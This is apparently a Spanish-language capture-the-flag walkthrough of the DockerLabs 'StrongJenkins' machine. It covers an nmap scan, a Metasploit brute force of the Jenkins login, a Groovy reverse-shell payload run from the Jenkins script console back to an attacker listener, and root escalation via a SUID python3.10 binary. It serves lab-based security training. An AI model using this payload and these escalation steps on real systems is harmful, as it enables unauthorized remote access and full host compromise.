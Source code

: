 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# StrongJenkins DockerLabs (Intermediate)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip strongjenkins.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh strongjenkins.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-21 09:41 EST
Nmap scan report for 172.17.0.2
Host is up (0.000057s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 10.0.20
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(10.0.20)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.70 seconds
```

Si entramos en la pagina web por el puerto `8080` veremos un `Jenkins`, vamos a probar las credenciales por defecto pero no tendremos suerte, por lo que vamos a realizar fuerza bruta contra el login con `metasploit` de la siguiente forma:

## jenkins\_login Exploit

```shell
msfconsole -q
```

Ahora accederemos al modulo de la siguiente forma:

```shell
use scanner/http/jenkins_login
```

Ahora tendremos que configurarlo:

```shell
set RHOSTS <IP>
set USERNAME admin
set PASS_FILE /usr/share/wordlists/rockyou.txt
exploit
```

Info:

```
[!] No active DB -- Credential data will not be saved!
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:123456 (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:12345 (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:123456789 (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:password (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:iloveyou (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:princess (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:1234567 (Incorrect)
[+] 172.17.0.2:8080 - Login Successful: admin:rockyou
^C[*] Caught interrupt from the console...
[*] Auxiliary module execution completed
```

Veremos que hemos encontrado las credenciales, por lo que nos loguearemos con dichas credenciales.

## Escalate user jenkins

```
User: admin
Pass: rockyou
```

Dentro del `jenkins` nos iremos a la pestaña de `Manage Jenkins` y veremos abajo del todo este apartado:

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Entraremos dentro de el y veremos como un recuadro donde meter un script para ejecutar:

```bash
String host="<IP>";
int port=<PORT>;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Pero antes de ejecutar nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Y ahora si lo ejecutaremos, por lo que pulsaremos a `run` y si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.60.128] from (UNKNOWN) [172.17.0.2] 49766
whoami
jenkins
```

Veremos que somos el usuario `jenkins` por lo que tendremos que sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate Privileges

Si listamos los permisos `SUID` que tenemos, veremos lo siguiente:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
2405051     40 -rwsr-xr-x   1 root     root        40496 Feb  6  2024 /usr/bin/newgrp
  2275789     36 -rwsr-xr-x   1 root     root        35200 Apr  9  2024 /usr/bin/umount
  2275773     56 -rwsr-xr-x   1 root     root        55680 Apr  9  2024 /usr/bin/su
  2275722     48 -rwsr-xr-x   1 root     root        47488 Apr  9  2024 /usr/bin/mount
  2404926     44 -rwsr-xr-x   1 root     root        44808 Feb  6  2024 /usr/bin/chsh
  2404920     72 -rwsr-xr-x   1 root     root        72712 Feb  6  2024 /usr/bin/chfn
  2405062     60 -rwsr-xr-x   1 root     root        59976 Feb  6  2024 /usr/bin/passwd
  2404988     72 -rwsr-xr-x   1 root     root        72072 Feb  6  2024 /usr/bin/gpasswd
  2528496   5768 -rwsr-xr-x   1 root     root      5904904 Nov 20  2023 /usr/bin/python3.10
  2519472     36 -rwsr-xr--   1 root     messagebus    35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Si vemos la siguiente linea:

```
2528496   5768 -rwsr-xr-x  1 root  root  5904904 Nov 20  2023 /usr/bin/python3.10
```

Vemos que podemos ejecutar `python3.10` bajo los privilegios de `root`, por lo que haremos lo siguiente:

```shell
python3.10 -c 'import os; os.execl("/bin/bash", "bash", "-p")'
```

Info:

```
bash-5.1# whoami
root
```

Si ejecutamos esto veremos que seremos el usuario `root`, por lo que habremos terminado la maquina.

